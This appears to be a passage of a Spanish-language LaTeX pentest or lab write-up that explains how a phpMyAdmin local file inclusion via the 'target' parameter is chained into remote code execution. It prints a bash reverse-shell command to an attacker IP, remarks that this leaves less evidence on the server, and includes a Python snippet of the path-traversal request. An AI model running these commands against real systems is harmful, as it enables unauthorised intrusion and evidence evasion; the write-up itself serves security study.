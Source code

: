 \documentclass[a4paper]{article} %
\begin{document}
  En este caso, se ejecuta un siguiente comando que mediante la ejecución del exploit encontrado (\textbf{Código 1}) permite entablar una \textbf{reverse shell} al atacante:

  \vspace{0.3cm}

  \begin{lstlisting}[language=Bash, caption=Comando encargado de entablar una \textbf{reverse shell}.]
bash -i >& /dev/tcp/192.168.245.130/443 0>&1
  \end{lstlisting}
  Haciendo la ejecución de esta manera, se evita alojar archivos residuales en el servidor y por lo tanto menos menos prueba de la conexión. Una vez ejecutado el comando, se gana acceso al servidor, teniendo el control de la máquina como el usuario '\textbf{apache}' que es el encargado de la ejecución del servicio web.

  Tal y como se aprecia en el script reflejado en el \textbf{Código 1}, este se aprovecha de una vulnerabildad de tipo \textbf{LFI} existente en esta versión de \textbf{PhpMyAdmin} a través del parámetro '\textbf{target}', que al ser vulnerable permite realizar un \textbf{Directory PATH traversal} para conseguir la ejecución remota de comandos:

  \vspace{0.2cm}

  \begin{lstlisting}[language=Python, caption=Porción de código donde se realiza el \textbf{LFI}.]
session_id = cookies.get_dict()['phpMyAdmin']
url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{}".format(session_id)
r = requests.get(url3, cookies = cookies)
  \end{lstlisting}

\begin{definicion}
  \textbf{LFI (Local File Inclusion)} es una vulnerabilidad que afecta a las aplicaciones web que permite el acceso no autorizado a archivos locales alojados en el servidor a través de la intrusión de archivos locales en una página web.
\end{definicion}

  \clearpage

  A través del \textbf{LFI}, se consigue apuntar a un recurso el cual almacena información relacionada con las diferentes sesiones activas en uso del lado de los usuarios.

  Aprovechando esta lectura mencionada y la propia sesión del usuario obtenida con las credenciales encontradas representadas en la \textbf{Imagen 9}, lo que se consigue es, a través de una \textbf{Query SQL}, introducir una consulta la cuál contiene \textbf{código PHP}, visible desde los archivos de sesión del usuario a través del \textbf{LFI}. Esto en consecuencia conduce a una ejecución remota de comandos, dado que al apuntar al recurso y estar accesible el código PHP es interpretado por el servidor.
\end{document}
